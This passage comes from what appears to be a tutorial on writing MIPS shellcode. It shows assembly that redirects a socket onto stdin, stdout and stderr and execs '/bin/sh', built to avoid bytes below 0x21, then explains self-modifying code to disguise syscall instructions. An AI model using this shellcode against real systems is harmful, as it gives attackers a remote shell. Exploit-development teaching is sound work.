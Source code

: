 ```

    # dup2(socket_descriptor, STDIN)
    addiu $a0, $fp, 0x2121
    xori $a1, $s6, 0x3131
    xori $v0, $s6, 0x3EEE
    syscall

    # dup2(socket_descriptor, STDOUT)
    addiu $a0, $fp, 0x2121
    xori $a1, $s6, 0x3130
    xori $v0, $s6, 0x3EEE
    syscall

    # dup2(socket_descriptor, STDERR)
    addiu $a0, $fp, 0x2121
    xori $a1, $s6, 0x3133
    xori $v0, $s6, 0x3EEE
    syscall

    # execv("/bin/sh", ["/bin/sh", NULL], NULL)
    # Build /bin/sh on the stack.
    addiu $t0, $s7, 0x622f
    sw $t0, -300($sp)
    addiu $t0, $s7, 0x6e69
    sw $t0, -298($sp)
    addiu $t0, $s7, 0x732f
    sw $t0, -296($sp)
    xori $t0, $s6, 0x3159
    sw $t0, -294($sp)

    addiu $a0, $sp, -300
    sw $a0, -288($sp)
    sw $zero, -292($sp)

    addiu $a1, $sp, -288
    xori $a2, $s6, 0x3131
    xori $v0, $s6, 0x3e9a
    syscall
```

## Self Modifying the Syscalls
The final task is to remove the bad bytes from the syscalls which, in my opinion, is the most difficult task. The syscall operation is encoded as 

`0000 00-- ---- ---- ---- ---- --00 1100`

The dashes can be a 1 or 0 so the high byte is limited to 0x00 - 0x03 and the low byte is limited to 0x0C, 0x4C, 0x8C, or 0xCC. For example, `0x027689CC` and `0x0000000C` are both interpreted as a `syscall` operation. But, remember, we can't sent any byte lower than 0x21 to the target. The high byte for a syscall is limited to a maximum of 0x03 which is well below the accepted minimum. The only option we have is to replace syscall instructions with place holder bytes, something like 0xFEFEFEFE, and self modify the instructions to change it to a syscall. In theory we just need to load the bytes for a syscall into a register and store that register at each offset where we need a syscall. Using the same setup as the assembly above something simple like this could be added:
